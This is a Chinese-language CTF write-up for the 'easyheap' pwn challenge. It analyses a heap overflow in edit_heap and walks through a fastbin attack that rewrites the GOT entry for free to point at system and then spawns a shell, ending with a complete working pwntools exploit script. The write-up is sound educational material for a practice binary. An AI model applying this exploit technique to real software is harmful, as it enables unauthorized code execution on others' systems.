## 0x001 程序分析

通过checksec查看程序开启的保护，可见程序开启了NX和Canary。



main函数中还有个隐藏功能



如果输入的选项为4869，则会判断magic的大小，如果magic大于0x1305，则会进入 **l33t** 函数中，在 **l33t** 函数中调用 **system("cat /home/pwn/flag")** 命令打印flag信息。

下面来分析下对堆操作的各个功能函数。

### create_heap函数



该函数中首先循环遍历 **heaparray** 数组，判断其中是否有值，如果没有，则会根据输入的大小创建一个堆块，并将堆块地址保存到 **heaparray** 数组中。

### edit_heap函数



该函数根据输入的 **heaparray** 数组下标定位相应的堆块地址，然后根据输入的大小，编辑堆块内容。

### delete_heap函数



该函数根据输入的 **heaparray** 数组下标定位相应的堆块地址，释放堆块地址后，将该位置的值置为0。

## 0x002 漏洞分析

根据上述分析可知，在edit_heap函数中存在堆溢出漏洞。因为在edit_heap函数中对堆块内容进行编辑时，没有对输入的长度进行限制，导致如果编辑时输入的长度大于创建堆块时输入的长度，则会造成溢出。

## 0x003 漏洞利用

根据上述分析可知，该程序存在堆溢出漏洞，并且关闭了地址随机化，那么可以通过house of spirit来达到任意地址写的目的。

前面分析了，在main函数中个隐藏内容，如果输入的选项为4869，并且 **magic** 大于0x1305，则会进入 **l33t** 函数中，调用 **system("cat /home/pwn/flag")** 命令打印flag信息。

那么根据house of spirit的利用条件，需要在 **magic** 附近伪造大小符合fastbin的堆块，然后释放堆块使其进入fastbins中，再次申请得到伪造堆块，就可以修改 **magic** 的内容了。

使用GDB动态调试，寻找 **magic** 附近符合要求的堆块



根据堆块的结构，可以在 **magic-0x13** 处找到一个大小符合 fastbin 的堆块，该堆块的大小为 0x7f，地址为0x6020ad。

那么接下来就是首先创建三个大小为0x60的堆块（使其chunk->size在0x70-0x80之间，配合伪造堆块的大小），释放最后一个堆块
```
create(0x60, b"A")
create(0x60, b"A")
create(0x60, b"A")
delete(2)
```

此时堆布局如下：



接下来通过编辑chunk1，覆盖chunk2->fd为伪造的堆块地址。
```
payload = p64(0) * 13 + p64(0x71) + p64(0x6020ad)
edit(1, payload)
```

此时的堆布局如下：



可以看到此时的fastbins已经有两个地址了，那么在重新申请两个相应大小的堆块，就会得到伪造的堆块地址。
```
create(0x60, b"A")
create(0x60, b"A")
```

此时的堆布局以及 **heaparray** 数组内容如下：



可以看到，伪造的堆地址已经在 **heaparray** 数组中了，那么此时通过编辑chunk3，就可以修改 **magic** 的值
```
payload = b"A" * 3 + p64(0xffff)
edit(3, payload)
p.sendlineafter("choice :", str(4869))
```

然后选择输入处输入4869即可



好吧，被骗了，根本就没有/home/pwn/flag这个文件，**133t** 这个函数的目的可能只是提供一个system函数。

这个方法行不通就只能换个思路，已经能够达成任意地址写，而且程序没有开启RELRO，那么也可以通过修改got表中的函数地址为system函数地址来获取系统权限。在这里选择修改的是free_got的地址，由于程序中没有提供 **"/bin/sh"** 字符串，还需要输入一个 **"/bin/sh"** 字符串。

接下来的思路就是，通过伪造的堆块，将 **heaparray[0]** 中保存的地址覆盖为free_got的地址，然后通过编辑chunk0，就可以将free_got中free的真实地址改为system_plt地址，这样在调用free()是就会执行system()。参数可以将 **heaparray** 中一个堆块的内容改为 **"/bin/sh"** 字符串，这样在执行 **delete_heap** 释放堆块时，就可以将 **"/bin/sh"** 的地址作为参数传给system，执行 **system("/bin/sh")** 命令。

回到重新申请两个相应大小的堆块，得到伪造的堆块地址处，这里需要在创建堆块时，将 **"/bin/sh"** 先写入。
```
create(0x60, b"/bin/sh\x00")
create(0x60, b"A")
```

此时堆布局如下：



可以看到已经将 **"/bin/sh"** 写入到了chunk2中。然后通过编辑伪造堆块，修改 **heaparray[0]** 为free_got，然后编辑chunk3，将free_got中的地址改为system_plt地址。
```
payload = b"A" * 3 + p64(0) * 4 + p64(elf.got["free"])
edit(3, payload)
payload = p64(elf.plt["system"])
edit(0, payload)
```

此时堆布局如下：



这是再运行 **delete_heap** 释放chunk2，即可执行system("/bin/sh")命令。

最终exp如下：
```
from pwn import *

p = process("./easyheap")
elf = ELF("easyheap")

def create(size, payload):
    p.sendlineafter("choice :", str(1))
    p.sendlineafter("Heap : ", str(size))
    p.sendlineafter("heap:", payload)

def edit(idx, payload):
    p.sendlineafter("choice :", str(2))
    p.sendlineafter("Index :", str(idx))
    p.sendlineafter("Heap : ", str(len(payload)+1))
    p.sendlineafter("heap : ", payload)

def delete(idx):
    p.sendlineafter("choice :", str(3))
    p.sendlineafter("Index :", str(idx))
    
create(0x60, b"A")
create(0x60, b"A")
create(0x60, b"A")
delete(2)

payload = p64(0) * 13 + p64(0x71) + p64(0x6020ad)
edit(1, payload)

create(0x60, b"/bin/sh\x00")
create(0x60, b"A")

payload = b"A" * 3 + p64(0) * 4 + p64(elf.got["free"])
edit(3, payload)
payload = p64(elf.plt["system"])
edit(0, payload)

delete(2)
p.interactive()
```